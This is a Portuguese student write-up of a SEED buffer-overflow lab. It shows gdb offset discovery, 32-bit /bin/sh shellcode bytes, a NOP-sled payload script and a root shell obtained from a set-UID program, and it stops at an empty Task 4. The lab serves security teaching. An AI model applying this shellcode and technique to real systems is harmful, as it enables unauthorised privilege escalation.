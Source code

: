 # Buffer-Overflow Attack Lab - Set-UID Version

## Task 1

Começamos dentro da pasta **shellcode** e fazendo  **make** do ficheiro geramos dois executáveis **a32.out** e **a64.out**. Se executarmos tanto um como o outro leva a que uma shell seja aberta dentro do diretório onde é lançado cada programa.

```shell
[10/22/23]seed@VM:~/.../shellcode$ make
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
[10/22/23]seed@VM:~/.../shellcode$ ls
a32.out  a64.out  call_shellcode.c  Makefile
[10/22/23]seed@VM:~/.../shellcode$ ./a32.out
$ echo Im in
Im in
$
[10/22/23]seed@VM:~/.../shellcode$ ./a64.out
$ echo Im in
Im in
$
```

## Task 2

Inicialmente analisamos o código do programa, que contém uma vulnerabilidade de buffer-overflow, de modo a perceber a sua execução. Neste programa tenta-se copiar para um buffer de tamanho de 100 bytes um array de carateres que contém ate 517 bytes. Como o **strcpy()** não verifica os limites do buffer, acaba por ocorrer overflow.

## Task 3

De modo a explorar esta vulnerabilidade, temos de primeiro criar um ficheiro de texto vazio: **badfile**. De seguida executamos o código vulnerável em modo debug, com o objetivo de descobrir a posição do endereço de retorno da função **bof()** relativamente ao início do buffer. Para isso usamos o **gdb** para fazer debug e colocamos um breakpoint na função **bof()**.

```shell
[10/22/23]seed@VM:~/.../code$ touch badfile
[10/22/23]seed@VM:~/.../code$ gdb stack-L1-dbg
...
gdb-peda$ b bof
Breakpoint 1 at 0x12ad: file stack.c, line 16.
gdb-peda$ run
...
gdb-peda$ next
...       
gdb-peda$ p $ebp
$1 = (void *) 0xffffc948
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffc8dc
gdb-peda$ quit
```

Após obtermos os endereços necessários, temos de inserir no ficheiro **badfile** o conteúdo que pretendemos no buffer. Para isto usamos o programa **exploit.py** realizando as alterações necessárias de modo a conseguirmos explorar a vulnerabilidade.

Na variável **shellcode** inserimos o shellcode para criar uma shell de 32 bits:

```python
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"  
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')
```

Cria-se um novo array de 517 bytes em que cada byte tem o valor 0x90 e coloca-se o shellcode no final do array:

```python
content = bytearray(0x90 for i in range(517))
start = 517 - len(shellcode)                
content[start:start + len(shellcode)] = shellcode
```

Por último, calculamos o novo endereço do shellcode a executar. Para isto utiliza-se os 2 endereços obtidos, calculando a localização do endereço de retorno relativamente ao início do array (offset) e colocou-se o novo endereço de retorno que aponta para o shellcode que se calculou anteriormente:

```python
ret    = 0xffffc948 + start           
offset = 0xffffc948 - 0xffffc8dc + 4
```

Executando o programa, é gerado o ficheiro **badfile**.

Finalmente, executa-se o programa com a vulnerabilidade de buffer-overflow e é criada uma shell com permissões root como esperado.

```shell
[10/22/23]seed@VM:~/.../code$ ./exploit.py
[10/22/23]seed@VM:~/.../code$ ls
badfile                        stack.c       stack-L3
brute-force.sh                 stack-L1      stack-L3-dbg
exploit.py                     stack-L1-dbg  stack-L4
Makefile                       stack-L2      stack-L4-dbg
peda-session-stack-L1-dbg.txt  stack-L2-dbg
[10/22/23]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# echo Im in                                                        
Im in
```

## Task 4














